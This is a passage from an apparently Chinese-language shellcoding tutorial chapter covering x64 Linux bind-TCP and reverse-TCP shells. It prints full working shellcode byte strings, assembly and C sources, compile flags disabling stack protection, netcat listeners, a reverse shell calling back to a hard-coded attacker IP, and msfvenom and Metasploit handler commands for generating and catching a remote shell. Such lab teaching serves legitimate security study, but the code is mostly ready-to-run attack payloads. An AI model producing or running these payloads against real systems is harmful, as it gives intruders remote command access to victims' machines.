上述命令的输出显示在以下屏幕截图中：



让我们将其注入到 C 代码中：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\x48\x31\xc0\x48\x83\xc0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\x66\x68\x04\xd2\x66\x6a\x02\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x48\x31\xc0\x48\x83\xc0\x31\x0f\x05\x48\x31\xc0\x48\x83\xc0\x32\x48\x31\xf6\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x2b\x48\x31\xf6\x48\x31\xd2\x0f\x05\x48\x89\xc3\x48\x89\xdf\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

让我们编译并运行它：

```
$ gcc -fno-stack-protector -z execstack bind-shell.c
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：


现在我们的 Shellcode 正在工作和等待；让我们确认一下：

```
$ netstat -ntlp
```

上述命令的输出显示在以下屏幕截图中：


它正在`1234`端口监听；现在，从另一个终端窗口开始`nc`：

```
$ nc localhost 1234
```

上述命令的输出显示在以下屏幕截图中：



现在，它已连接并等待我们的命令；让我们试试：

```
$ cat /etc/issue
```

上述命令的输出显示在以下屏幕截图中：



现在我们有了第一个真正的 Shellcode！

# 反向 TCP 外壳

在本节中，我们将创建另一个有用的 Shellcode，即反向 TCP 外壳。反向 TCP 外壳与绑定 TCP 相反，因为受害者的机器再次与攻击者建立连接。

首先，让我们看一下 C 代码：

```
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h> 

int main(void)
{
    int sockfd;
    int port = 1234;
    struct sockaddr_in mysockaddr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    mysockaddr.sin_family = AF_INET;
    mysockaddr.sin_port = htons(port);
    mysockaddr.sin_addr.s_addr = inet_addr("192.168.238.1");

    connect(sockfd, (struct sockaddr *) &mysockaddr,
    sizeof(mysockaddr));

    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
    return 0;
}
```

首先，我们将在我们的一台受害者机器（Ubuntu）上编译并执行此命令。我们将在攻击机器（Kali）上设置一个侦听器，shell 将通过在代码中添加 Kali 的 IP 从 Ubuntu 连接回 Kali。

让我们使用`nc`命令或`netcat`工具在 Kali 上设置一个侦听器：

```
$ nc -lp 1234
```

在 Ubuntu 上，让我们编译并运行`reverse-tcp`Shellcode：

```
$ gcc reverse-tcp.c -o reverse-tcp
$ ./reverse-tcp
```

再次回到我的卡利，我接通了！


那很简单！

现在，让我们在汇编中构建一个反向 TCP 外壳，然后将其转换为 Shellcode。

`socket`函数与我们在 bind TCP 中解释的完全相同。将`socket`的输出移动到 RDI 寄存器：

```
xor rax, rax
add rax, 41
xor rdi, rdi
add rdi, 2
xor rsi, rsi
inc rsi
xor rdx, rdx
syscall

mov rdi, rax
```

接下来是填充`mysockaddr`结构，除了我们必须以 32 位压缩格式推出攻击者的 IP 地址。我们将使用 Python 实现这一点：


所以我们 32 位压缩格式的 IP 地址是`01eea8c0`。

让我们构建我们的结构并将堆栈指针移动到 RSI：

```
xor rax, rax 
push dword 0x01eea8c0
push word 0xd204
push word 0x02

mov rsi, rsp
```

现在，让我们构建`connect`函数：

```
 connect(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
```

然后，运行以下命令：

```
$ man 2 connect
```

上述命令的输出显示在以下屏幕截图中：


`connect`函数也有三个参数。第一个参数是`sockfd`（来自`socket`函数的输出），它存储在 RDI 寄存器中。第二个是对我们的结构的引用，它存储在 RSI 寄存器中。第三个论点是我们的结构规模。

让我们获取`connect`系统调用号码：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep connect
```

上述命令的输出显示在以下屏幕截图中：


从得到的输出可以看出，系统调用号为`42`。现在，让我们构建`connect`系统调用：

```
xor rdx, rdx
add rdx, 16
xor rax, rax
add rax, 42
syscall
```

现在，`dup2`函数除了第一个参数是`sockfd`之外是相同的，它已经存储在 RDI 寄存器中；让我们也来构建它：

```
xor rax,rax
add rax, 33
xor rsi, rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall
```

现在，最后一部分是`/bin/sh`的`execve`系统调用：

```
xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```

现在，让我们把它们打包：

```
global _start

section .text

_start:

;Socket syscall
    xor rax, rax
    add rax, 41
    xor rdi, rdi
    add rdi, 2
    xor rsi, rsi
    inc rsi
    xor rdx, rdx
    syscall

; Save the sockfd in RDI Register
    mov rdi, rax

;Creating the structure
    xor rax, rax 
    push dword 0x01eea8c0
    push word 0xd204
    push word 0x02

;Move stack pointer to RSI
    mov rsi, rsp

;Connect syscall
    xor rdx, rdx
    add rdx, 16
    xor rax, rax
    add rax, 42
    syscall

;Dup2 syscall to stdin
    xor rax,rax
    add rax, 33
    xor rsi, rsi
    syscall

;Dup2 syscall to stdout
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Dup2 syscall to stderr
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Execve syscall with /bin/sh
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

让我们将其组装并链接到受害者机器：

```
$ nasm -felf64 reverse-tcp.nasm -o reverse-tcp.o
$ ld reverse-tcp.o -o reverse-tcp
```

然后，在我们的攻击者计算机上运行以下命令：

```
$ nc -lp 1234
```

然后，再次回到受害者机器并运行代码：

```
$ ./reverse-tcp
```

然后，在攻击者机器上，我们连接到受害者机器（Ubuntu）：


现在，让我们将其转换为 Shellcode：

```
$ objdump -M intel -D reverse-tcp | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上述命令的输出显示在以下屏幕截图中：


让我们将此机器语言复制到 C 代码中：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\x48\x31\xc0\x48\x83\xc0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x68\xc0\xa8\xee\x01\x66\x68\x04\xd2\x66\x6a\x02\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x48\x31\xc0\x48\x83\xc0\x2a\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

让我们在受害者机器上编译它：

```
$ gcc -fno-stack-protector -z execstack reverse-tcp-shellcode.c -o reverse-tcp-shellcode
```

然后，在攻击者计算机上设置侦听器：

```
$ nc -lp 1234
```

现在，在受害者计算机上设置侦听器：

```
$ ./reverse-tcp-shellcode
```

上述命令的输出显示在以下屏幕截图中：


现在，我们已连接到攻击者的计算机：


我们做到了！

# 使用 Metasploit 生成 Shellcode

在这里，事情比你想象的要简单。我们将使用 Metasploit 为具有多个体系结构的多个平台生成 Shellcode，并在一个命令中删除坏字符。

我们将使用`msfvenom`命令。让我们使用`msfvenom -h`显示所有选项：



让我们使用`msfvenom -l`列出它的所有有效载荷——这是一个非常大的有效载荷列表：


这只是列表中的一小部分。

让我们来看看我们的输出格式使用


让我们尝试在 Linux 上创建绑定 TCP Shellcode：

```
$ msfvenom -a x64 --platform linux -p linux/x64/shell/bind_tcp -b "\x00" -f c
```

我们在这里所做的很简单：`-a`指定 arch，然后我们将平台指定为 Linux，然后我们将负载选择为`linux/x64/shell/bind_tcp`，然后我们使用`-b`选项删除坏字符`\x00`，最后我们将格式指定为 C。让我们执行以查看：



现在，将 Shellcode 复制到我们的 C 代码：

```
#include<stdio.h>
#include<string.h>
unsigned char code[] =
"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xdd\x0a\x08\xe9\x70\x39\xf7\x21\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb7\x23\x50\x70\x1a\x3b"
"\xa8\x4b\xdc\x54\x07\xec\x38\xae\xa5\xe6\xd9\x2e\x0a\xe9\x61"
"\x65\xbf\xa8\x3b\x60\x18\xb3\x1a\x08\xaf\x2e\xd8\x53\x62\xdb"
"\x28\x36\xf2\x69\x4b\x60\x23\xb1\x7f\x3c\xa7\x77\x82\x60\x01"
"\xb1\xe9\x8f\xe7\x69\x54\xdc\x45\xd8\xb9\x53\xd5\x60\x87\xb8"
"\x0f\xe6\x75\x71\x61\x69\x4a\x55\x07\xec\x8f\xdf\xf7\x21";

int main()
{
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
}
```

然后，把它复制到我们的受害者机器上。现在，编译并运行它：

```
$ gcc -fno-stack-protector -z execstack bin-tcp-msf.c -o bin-tcp-msf
$ ./bin-tcp-msf
```

它正在等待连接。现在，让我们使用 Metasploit 框架和`msfconsole`命令在攻击者机器上设置侦听器，然后选择处理程序：

```
use exploit/multi/handler
```

然后，我们使用以下命令选择有效负载：

```
set PAYLOAD linux/x64/shell/bind_tcp
```

现在，我们指定受害者机器的 IP：

```
set RHOST 192.168.238.128
```

然后，我们指定端口，Metasploit 的默认端口为`4444`：

```
set LPORT 4444
```

现在，我们运行我们的处理程序：

```
exploit
```

上述命令的输出显示在以下屏幕截图中：



表示会话在`session 1`上处于活动状态。让我们使用`session 1`激活此会话：



成功了！

# 总结

在本章中，我们介绍了如何创建简单的 Shellcode 以及如何删除坏字符。我们继续使用`execve`来执行系统命令。然后，我们构建了高级 Shellcode，如绑定 TCP 外壳和反向 TCP 外壳。最后，我们了解了如何使用 Metasploit 框架在一行中构建 Shellcode，以及如何使用 Metasploit 设置侦听器。

我们现在确切地知道如何构建有效负载，因此我们将了解如何使用它们。在下一章中，我们将讨论缓冲区溢出攻击。